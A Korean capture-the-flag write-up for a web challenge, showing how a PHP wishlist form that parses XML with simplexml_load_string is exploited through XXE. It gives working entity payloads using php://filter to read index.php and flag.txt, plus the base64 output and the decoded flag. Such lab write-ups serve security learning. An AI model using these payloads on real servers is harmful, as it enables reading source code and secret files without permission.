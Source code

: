# Web - Out Christmas Wishlist

위시리스트를 보내는 스크립트는 다음과 같다

```js
function lol () {
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (xhttp.readyState == 4 && xhttp.status == 200) {
			document.location.reload();
		}
	};
	
	var xml = "<message>" + document.getElementById("textarea").value + "</message>";
	xhttp.open("POST", "/", true);
	xhttp.setRequestHeader('Content-Type', 'application/xml');
	xhttp.send(xml);
};
```

POST로 다음과 같은 body를 보내면 정상적으로 응답이 온다

```
POST http://199.247.6.180:12001/ <message>girlfriend</message>
```

```
Your wish: girlfriend
```

하지만 다음처럼 깨진 태그를 보내면 이렇게 나온다

```
POST http://199.247.6.180:12001/ <h
```

```
<br />
<b>Warning</b>:  simplexml_load_string(): Entity: line 1: parser error : Couldn't find end of Start Tag h line 1 in
<b>/var/www/html/index.php</b> on line
<b>18</b>
<br />
<br />
<b>Warning</b>:  simplexml_load_string(): &lt;h in
<b>/var/www/html/index.php</b> on line
<b>18</b>
<br />
<br />
<b>Warning</b>:  simplexml_load_string():   ^ in
<b>/var/www/html/index.php</b> on line
<b>18</b>
<br />
Your wish:
```

`simplexml_load_string()` 을 사용한다고 한다. XML 인젝션에 걸리겠지 다음처럼 넣어보자

```
POST http://199.247.6.180:12001/ <!DOCTYPE foo [<!ELEMENT foo ANY> <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/index.php" >]><message>&xxe;</message>
```

```
Your wish: ... (base64 encoded index.php source code)
```

딱히 플래그에 관련한 내용은 없어서 같은 경로에 flag.txt 파일이 있는지 확인했다

```
<!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag.txt" >]><message>&xxe;</message>
```

```
Your wish: WC1NQVN7X1RoZV9FeDczcm5hbF9FbnQxdDEzJF9XNG43X1RvX19KbzFuXzdoZV9wNHI3eV9fNzAwX19fX19ffQo=
```

디코딩하면 플래그가 나온다. `X-MAS{_The_Ex73rnal_Ent1t13$_W4n7_To__Jo1n_7he_p4r7y__700______}`